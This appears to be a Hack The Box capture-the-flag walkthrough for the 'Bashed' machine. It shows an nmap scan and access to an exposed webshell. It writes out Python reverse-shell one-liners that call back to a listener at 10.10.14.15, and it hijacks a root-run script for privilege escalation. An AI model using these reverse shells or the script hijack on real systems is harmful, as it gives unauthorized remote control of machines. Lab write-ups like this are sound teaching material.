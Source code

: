 # Bashed Walkthrough

Initial nmap scan... Apache web server on port 80 is interesting...
```
# Nmap 7.93 scan initiated Sat Jun  3 13:20:27 2023 as: nmap -Pn -n -sVC -T4 -p- -v -oN initial 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.083s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun  3 13:20:56 2023 -- 1 IP address (1 host up) scanned in 29.20 seconds
```

Gobuster for good measure.
```
```
Found a webshell at 10.10.10.68/dev.

Created a reverse shell calling back to a listener.
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.15",8443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

What privileges do we have? 
```
sudo -l
```
scriptmanager does not require a password for sudo.

Run /bin/bash as scriptmanager and spawn a shell.
```
sudo -u scriptmanager /bin/bash
python -c ‘import pty; pty.spawn(“/bin/bash”);’
or
sudo -u scriptmanager python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.15",7443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
scriptmanager is used to run scripts in the script folder.
```
ls -la
```

Create a scripted payload for scriptmanager to run, replacing the original text.py with our payload.
```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.15\",8443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > test.py
```
Catch the reverse shell with our listener. root.

[<img height="600" width="600px" src="https://github.com/zmiddle/htb/blob/main/bashed/bashed_pwned.png" />](https://www.hackthebox.com/achievement/machine/259690/118) 

